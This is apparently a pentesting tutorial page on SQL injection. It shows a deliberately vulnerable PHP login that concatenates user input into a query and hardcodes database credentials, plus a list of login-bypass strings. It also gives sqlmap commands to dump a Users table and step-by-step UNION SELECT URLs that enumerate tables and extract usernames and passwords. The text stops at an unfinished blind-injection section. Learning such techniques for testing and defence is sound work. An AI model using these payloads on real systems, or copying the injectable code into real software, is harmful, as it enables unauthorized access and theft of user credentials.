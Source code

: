 # SQL-injections


## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```
<?php
	mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

	mysql_select_db("myHomepage");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['username'];
		$password = $_POST['password'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
	}
?>
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:
```
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

```
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```



## SQLmap

Sqlmap is a great tool to perform sqlinjections.
Here is the manual.
https://github.com/sqlmapproject/sqlmap/wiki/Usage


### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

```
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

### Use proxy

```
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**
```
--proxy-cred="username:password"
```


Here is a tutorial on how to make sql-injections with post-requests.

https://hackertarget.com/sqlmap-post-request-injection/


## Login bypass



This is the most classic, standard first test:
```
' or '1'='1
```

Then you have:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Sql-injections manually

Sqlmap is good, but it is not very stealthy. And it can generate a lot of traffic. And also it is good to understand the vulnerability in the cote and not just run tools. So let's learn sql-injections the manual way.

The two main ways for perform a sql-injection: **error based** or **blind**.

### Error-bases DB enumeration

If we manage to find an error-message after a broken sql-query, we can use that to try to map out the database structure.

For example, if we have a url that end with 

```
http://example.com/photoalbum.php?id=1
```

#### Step 1 - Add the tick '

So first we should try to break the sql-syntaxt by adding a **'**.
We should first ad a **'** or a **"**. 

```
http://example.com/photoalbum.php?id=1'
```

If the page then returns a blank page or a page with a sql-error we know that the page it vulnerable.

#### Step 2 - Enumerate columns

So in order to enumerate the columns of a table we can use the **order by**

**Order by 1** means sort by values of the first column from the result set.
**Order by 2** means sort by values of the second column from the result set. 

So it is basically just a tool to order the data in a table. But we can use it to find out how many columns a table has. Because if we do **order by 10** when there really only is 9 columns sql will throw an error. And we will know how many columns the table has.

```
# This trhows no error
http://example.com/photoalbum.php?id=1 order by 9
# This throws error
http://example.com/photoalbum.php?id=1 order by 10
```

So you just increase the number (or do a binary tree search if you want tot do it a bit faster) until you get an error, and you know how many columns the table has. 

#### Step 3 - Find space to output db

Now we need to know which coolumns are being outputed on the webpage. It could be that not all data from the database is worthwhile to output, so maybe only column 1 and 3 are being outputted to the website.

To find out which columns are being outputted we can use the **union select** command. So we do the command like this

```
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4 - Start enumerating the database

Now we can use that field to start outputing data. For example if columns number five has been visible in step 3, we can use that to output the data. 

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine (mysql, mssql, postgres).

```
# Get username of the sql-user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,
password),6,7,8,9 FROM users
```



### Blind sql-injection

We say that it is blind becasue we do not have access to the error log. 

## References